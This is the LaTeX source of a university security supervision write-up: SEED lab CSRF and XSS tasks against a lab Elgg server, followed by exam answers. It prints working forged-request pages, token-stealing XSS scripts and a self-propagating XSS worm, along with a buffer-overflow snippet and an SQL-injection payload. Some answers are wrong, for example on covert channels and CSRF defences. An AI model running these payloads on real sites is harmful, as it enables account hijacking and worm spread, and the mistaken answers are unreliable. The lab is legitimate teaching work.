\newcommand{\svcourse}{CST Part IA: Software Engineering and Security}
\newcommand{\svnumber}{1}
\newcommand{\svvenue}{Microsoft Teams}
\newcommand{\svdate}{2022-05-11}
\newcommand{\svtime}{15:00}
\newcommand{\svuploadkey}{CBd13xmL7PC1zqhNIoLdTiYUBnxZhzRAtJxv/ytRdM1r7qIfwMsxeVwM/pPcIo8l}

\newcommand{\svrname}{Dr Sam Ainsworth}
\newcommand{\jkfside}{oneside}
\newcommand{\jkfhanded}{yes}

\newcommand{\studentname}{Harry Langford}
\newcommand{\studentemail}{hjel2@cam.ac.uk}


\documentclass[10pt,\jkfside,a4paper]{article}

% DO NOT add \usepackage commands here.  Place any custom commands
% into your SV work files.  Anything in the template directory is
% likely to be overwritten!

\usepackage{fancyhdr}

\usepackage{lastpage}       % ``n of m'' page numbering
\usepackage{lscape}         % Makes landscape easier

\usepackage{verbatim}       % Verbatim blocks
\usepackage{listings}       % Source code listings
\usepackage{graphicx}
\usepackage{float}
\usepackage{epsfig}         % Embed encapsulated postscript
\usepackage{array}          % Array environment
\usepackage{qrcode}         % QR codes
\usepackage{enumitem}       % Required by Tom Johnson's exam question header

\usepackage{hhline}         % Horizontal lines in tables
\usepackage{siunitx}        % Correct spacing of units
\usepackage{amsmath}        % American Mathematical Society
\usepackage{amssymb}        % Maths symbols
\usepackage{amsthm}         % Theorems

\usepackage{ifthen}         % Conditional processing in tex

\usepackage[top=3cm,
            bottom=3cm,
            inner=2cm,
            outer=5cm]{geometry}

% PDF metadata + URL formatting
\usepackage[
            pdfauthor={\studentname},
            pdftitle={\svcourse, SV \svnumber},
            pdfsubject={},
            pdfkeywords={9d2547b00aba40b58fa0378774f72ee6},
            pdfproducer={},
            pdfcreator={},
            hidelinks]{hyperref}

\renewcommand{\headrulewidth}{0.4pt}
\renewcommand{\footrulewidth}{0.4pt}
\fancyheadoffset[LO,LE,RO,RE]{0pt}
\fancyfootoffset[LO,LE,RO,RE]{0pt}
\pagestyle{fancy}
\fancyhead{}
\fancyhead[LO,RE]{{\bfseries \studentname}\\\studentemail}
\fancyhead[RO,LE]{{\bfseries \svcourse, SV~\svnumber}\\\svdate\ \svtime, \svvenue}
\fancyfoot{}
\fancyfoot[LO,RE]{For: \svrname}
\fancyfoot[RO,LE]{\today\hspace{1cm}\thepage\ / \pageref{LastPage}}
\fancyfoot[C]{\qrcode[height=0.8cm]{\svuploadkey}}
\setlength{\headheight}{22.55pt}


\ifthenelse{\equal{\jkfside}{oneside}}{

 \ifthenelse{\equal{\jkfhanded}{left}}{
  % 1. Left-handed marker, one-sided printing or e-marking, use oneside and...
  \evensidemargin=\oddsidemargin
  \oddsidemargin=73pt
  \setlength{\marginparwidth}{111pt}
  \setlength{\marginparsep}{-\marginparsep}
  \addtolength{\marginparsep}{-\textwidth}
  \addtolength{\marginparsep}{-\marginparwidth}
 }{
  % 2. Right-handed marker, one-sided printing or e-marking, use oneside.
  \setlength{\marginparwidth}{111pt}
 }

}{
 % 3. Alternating margins, two-sided printing, use twoside.
}


\setlength{\parindent}{0em}
\addtolength{\parskip}{1ex}

% Exam question headings, labels and sensible layout (courtesy of Tom Johnson)
\setlist{parsep=\parskip, listparindent=\parindent}
\newcommand{\examhead}[3]{\section{#1 Paper #2 Question #3}}
\newenvironment{examquestion}[3]{
\examhead{#1}{#2}{#3}\setlist[enumerate, 1]{label=(\alph*)}\setlist[enumerate, 2]{label=(\roman*)}
\marginpar{\href{https://www.cl.cam.ac.uk/teaching/exams/pastpapers/y#1p#2q#3.pdf}{\qrcode{https://www.cl.cam.ac.uk/teaching/exams/pastpapers/y#1p#2q#3.pdf}}}
\marginpar{\footnotesize \href{https://www.cl.cam.ac.uk/teaching/exams/pastpapers/y#1p#2q#3.pdf}{https://www.cl.cam.ac.uk/\\teaching/exams/pastpapers/\\y#1p#2q#3.pdf}}
}{}


\usepackage{xcolor}

\lstdefinelanguage{javaScript}{
  keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
  keywordstyle=\color{blue}\bfseries,
  ndkeywords={class, export, boolean, throw, implements, import, this},
  ndkeywordstyle=\color{darkgray}\bfseries,
  identifierstyle=\color{black},
  sensitive=false,
  comment=[l]{//},
  morecomment=[s]{/*}{*/},
  commentstyle=\color{purple}\ttfamily,
  stringstyle=\color{red}\ttfamily,
  morestring=[b]',
  morestring=[b]"
}


\begin{document}

\part{SEED Labs}

\section{Cross-Site Request Forgery (CSRF) Attack Lab}

\subsection{Task 1: Observing HTTP Request}

\begin{figure}[H]
\centering

\includegraphics[width=0.6\textwidth]{httpget}
\caption{HTTP Get}
\end{figure}

\begin{figure}[H]
\centering

\includegraphics[width=0.6\textwidth]{httppost}
\caption{HTTP Post}
\end{figure}

\subsection{Task 2: CSRF Attack using GET Request}

I observed the \texttt{GET} request made by legitimate friend requests and
made the source of the image in \texttt{addfriend} make this \texttt{GET}
request. I changed \texttt{addfriend.html} to the following and
successfully executed cross-site request forgery:
\begin{lstlisting}[language=html]
<html>
<body>
<h1>This page forges an HTTP GET request</h1>
<img src="http://www.seed-server.com/action/friends/add?friend=59"
	alt="image" width="1" height="1">
</body>
</html>
\end{lstlisting}

\subsection{Task 3: CSRF Attack using POST Request}

I observed the \texttt{POST} request made by legitimate edits and edited the
code supplied to send the \texttt{POST} to the same URL; and filled in the
appropriate values:
\begin{lstlisting}[language=html]
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero!'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}


// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post();}
</script>
</body>
</html>
\end{lstlisting}

\subsection{Task 4: Enabling Elgg's Countermeasure}

I commented out the return statement at the start of the \texttt{validate}
function and observed that this prevented the attacks from tasks 2 and 3
from working.

\section{Cross-Site Scripting (XSS) Attack Lab}

\subsection{Task 1: Posting a Malicious message to Display an Alert Window}

I copied the code provided into the description and successfully observed
that the Javascript code \textit{was} run.

\subsection{Task 2: Posting a Malicious Message to Display Cookies}

I copied the code provided and observed the expected outcome.

\subsection{Task 3: Stealing Cookies from the Victim's Machine}

I copied the code provided and observed the expected outcome.

\subsection{Task 4: Becoming the Victim's Friend}

I set the profile to the following html and observed that it added Samy as
the friend of \textit{anyone} who viewed the ``\texttt{About Me}'' of an
infected account.

\begin{lstlisting}[language=javascript]
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;

    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
\end{lstlisting}

\begin{enumerate}

\item Explain the purpose of lines \textcircled{1} and \textcircled{2}, why
are they needed?

These add information local only to the client. This proves to the site that
the request came from the site itself and prevent CSRF attacks.

\item If the \texttt{Elgg} application only provided the Editor mode for the
``\textit{About me}'' field, i.e you cannot switch to the Text mode, can you
still launch a successful attack?

I'm certain there \textit{is} a way to launch an attack through the Editor
mode; but I was \textbf{unable to find it}.

\end{enumerate}

\subsection{Task 5: Modifying the Victim's Profile}

I used the following javascript and successfully edited the victims profile.

\begin{lstlisting}[language=javascript]
<script type="text/javascript">;
window.onload = function(){
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  var content= token+ts+userName +
	"&description=<p>Samy is my Hero!</p>&accesslevel[description]=2"+guid;

  var samyGuid=59;
  var sendurl="http://www.seed-server.com/action/profile/edit";

  if(elgg.session.user.guid != samyGuid){
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST", sendurl, true);
    Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    Ajax.send(content);
  }
}
</script>
\end{lstlisting}

\begin{enumerate}

\setcounter{enumi}{2}

\item why do we need \textcircled{1}? Remove this line, and repeat your
attack. Report and explain your observation.

If this line is removed then the CSRF attack will immediately affect Samy,
deleting the javascript from his own ``\texttt{About Me}''.

\end{enumerate}

\subsection{Task 6: Writing a Self-Propogating XSS Worm}

I merged the scripts from the previous two tasks and used the DOM method to
create the following script. This script automatically copies itself into
the profile of anyone who sees it and adds Samy as a friend.

\begin{lstlisting}[language=javascript]
<script id="worm">
window.onload = function(){
  var headerTag = "<script id=\"worm\">";
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag +
	"<p>Samy is my Hero!<\/p>");

  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  var content= token+ts+userName + "&description=" + wormCode +
	"&accesslevel[description]=2" + guid;

  var samyGuid=59;
  var sendurlprofile="http://www.seed-server.com/action/profile/edit";
  var sendurlfriend="http://www.seed-server.com/action/friends/add?friend=59" +
	ts + token;

  if(elgg.session.user.guid != samyGuid){
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST", sendurlprofile, true);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send(content);

    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurlfriend, true);
  }
}
</script>
<p>Samy is my Hero!</p>
\end{lstlisting}

\part{Exam Questions}

\begin{examquestion}{2019}{4}{6}

\begin{enumerate}[label=(\alph*)]

\item What is the purpose of the \texttt{HttpOnly} flag in the HTTP
protocol? Briefly describe an attack that this flag was intended to prevent.

The \texttt{HttpOnly} flag ensures that the cookie is not accessible to
client-side Javascript code via the \texttt{document.cookie} API\@. The
cookie is only inserted by the browser into HTTP requests. This prevents
a type of Cross-Site Scripting attack where an attacker loads the cookie
attribute and sends it to themselves, thereby giving them access to the
victims account.

\item Users of websites often commit transactions by filling out an HTML
form and pressing a ``Submit'' button to update some state stored on a
server (e.g password change, purchase).

\begin{enumerate}[label=(\roman*)]

\item HTML forms can submit such requests using either the \texttt{GET} or
\texttt{POST} method of HTTP\@. Which is more appropriate here? Give
\textit{three} reasons.

\texttt{POST} is more appropriate here:
\begin{itemize}

\item It's best practice to use \texttt{POST} for any transactions with side
effects or non-idempotent transactions.

\item Browsers will not repeat \texttt{POST} requests when reloading pages.

\item Using \texttt{POST} instead of \texttt{GET} removes the chance of
errors due to i.e bookmarking a page which makes a request.

\end{itemize}

\item Some web servers place an additional token value into an invisible
field of HTML forms that are used to commit security-critical transactions.
What security risk can such a token mitigate?

Such a token can mitigate the risk from CSRF\@. The token is generated
clientside in Javascript so it is not stored in a cookie. Therefore, the
token is only added by requests which are sent by the same code which
generated the token (since no other code has access to it). This means CSRF
attacks will not be properly authorised and so will not occur.

\item Explain \textit{three} additional checks that a web server may implement
to reduce this risk?

\begin{itemize}

\item Secure attribute

Cookies can be marked as secure. In this case, the client will only
retransmit the cookie over a secure channel (HTTPS). Since CSRF requests
don't use secure channels, cookies marked as secure will only be transmitted
by legitimate requests.

\item Referer header

This is an attribute in the header of HTTP messages which stores the site
from which the request came. This allows the server to determine whether the
request is legitimate. However, this also allows servers to track clients --
making it unpopular.

\item Same-site cookie

This is a cookie field which is set when the site which sent the HTTP
message is the same as the destination of the HTTP message. This is an easy
implementation and allows the webserver to distinguish real requests from
fake ones. This is unpopular since it also filters out many legitimate
requests.

\end{itemize}

\end{enumerate}

\end{enumerate}

\end{examquestion}

\begin{examquestion}{2019}{4}{7}

\begin{enumerate}[label=(\alph*)]

\item In a Linux shell session, you can see the following information
\begin{lstlisting}[language=Bash]
$ ls -la
drwxr-xr-x  2   root   root     4096   Jun  3  13:29  .
drwxr-xr-x  25  root   root     4096   Jun  3  13:29  ..
-rwxr-xr-x  2   root   root     4675   Jun  3  13:29  script.pl
\end{lstlisting}
Consider how you need to change the file access-control information shown 
above in order to achieve the following additional goals:
\begin{itemize}

\item Only members of the group \texttt{staff} who are not also members of 
the group \texttt{interns} can execute \texttt{script.pl}.

\item When \texttt{script.pl} is called, it should be able to switch between
using the access privileges of the caller and those of the user 
\texttt{primary}.

\item All members of the group \texttt{staff} should be able to read the
contents of \texttt{script.pl}.

\end{itemize}

What would ``\texttt{ls -la}'' output after you have applied these changes?

\begin{lstlisting}[language=Bash]
$ ls -la
drwxr-xr-x  2   root   root     4096   Jun  3  13:29  .
drwxr-xr-x  25  root   root     4096   Jun  3  13:29  ..
-rwsr--r-x+ 2   root   interns  4675   Jun  3  13:29  script.pl
\end{lstlisting}

\textbf{I was really unsure about this.} This implementation requires adding
\texttt{staff} as an additional group (with higher permissions) and making
\texttt{interns} own the file\dots While it would work, it feels very hacky and
I'm not happy with it.

\item Sending a password over a network connection is vulnerable to replay 
attacks by eavesdroppers. Briefly describe three other forms of unilateral 
(or one-pass) authentication suitable for human keyboard entry that reduce 
that risk with the help of a hardware token and name one advantage of each.

\begin{itemize}

\item Authentication Token

The user carries a physical hardware token which has built-in cryptography.
This physical token then communicates with the system and allows the user to
login. Some simpler authentication tokens do not talk to the system; instead
requiring the user to manually input data and read the result of the hash
from the terminal. This has very poor usability but high security.

\item Biometrics

The hardware includes scanners for iris or fingerprint recognition. This
requires a liveness check to avoid replay attacks. Biometrics have the
additional disadvantage of being immutable.

\item Single Sign-On

In Single Sign-On (SSO) systems, the user signs on to a service which then
authenticates the user to subsequent systems. SSO also protects against
phishing attacks since the service signs on for the user; in many cases the
user will not even \textit{know} the (very high entropy) passwords the service
is using; and the service will not be tricked by similar-looking URLs.

\end{itemize}

\end{enumerate}

\end{examquestion}

\begin{examquestion}{2012}{4}{8}

Briefly explain

\begin{enumerate}

\item the function of a \textit{salt value} in a password database

A salt is a randomly generated byte sequence which is hashed with the
password. This ensures that if two different users hash the same password,
the result will not be the same.

It is used to combat lookup tables and rainbow tables.

\item \textit{two} examples of covert channels in a file system protocol
that is restricted to read-only operations under a mandatory access-control
policy

Spectre and Meltdown are exploits which use a race condition to allow
privileged code to run. The code then uses the cache as a side-channel
and checks what values are stored in cache. This can determine the
value of any address in memory.

Timing attacks check how long certain operations take to execute and
determine the value of variables based on that.

\item \textit{three} types of common software vulnerabilities, with examples

\begin{itemize}

\item Buffer Overflow

In buffer overflow, a user loads more data into a buffer than the buffer can
take. The tail-end of this data is then written into memory, overwriting
other contents. In the worst-case this can transfer control to the attacker.
An example of a buffer overflow is given below:
\begin{lstlisting}[language=C]
int main(){
	int buf[100];
	gets(buf);
	return 0;
}
\end{lstlisting}

\item SQL Injection

In SQL Injection, a program takes a string as an argument and inserts it
into the SQL query without proper input sanitization. This allows the user
to add SQL code into the program -- allowing them to execute any query they
wish.

I give pseudocode vulnerable to SQL Injection below:
\begin{lstlisting}
def readname():
	id = input("Input your ID")
	name = sql_run("select name from staff where id = %s;", %s);
	return name
\end{lstlisting}

This could be exploited by inputting
\texttt{-1;select * from bankInfo \#}.

\item Cross-Site Request Forgery

In Cross-Site Request Forgery, the user $U$ visits a malicious website $M$.
$M$ then asks $U$ to make a request to another website $W$. $U$ does
this and attaches their cookie to the request. This means that the request
is treated as if it came from $U$ directly. $M$ can ask the user to make
any request to $W$.

For example, an email could contain a URL linking to a 0x0 pixel image. On
opening the email, the email client may automatically visit the email and
issue any requests the site asks for.

\end{itemize}

\setcounter{enumi}{4}

\item under which conditions will user $U$ be able to remove a directory $D$
in Berkeley Unix

User $U$ will be able to remove a directory $D$ in Berkely Unix if either:
\begin{itemize}

\item User $U$ has write permissions for the directory $D$ \textit{or} the
directory in which $D$ is held and \textit{the sticky bit is not set}. This
permission can be granted either via user, group or other.

\item User $U$ is the owner of either the directory $D$ or the directory in
which $D$ is held \textit{and the sticky bit is set}.

\end{itemize}

\end{enumerate}

\end{examquestion}

\end{document}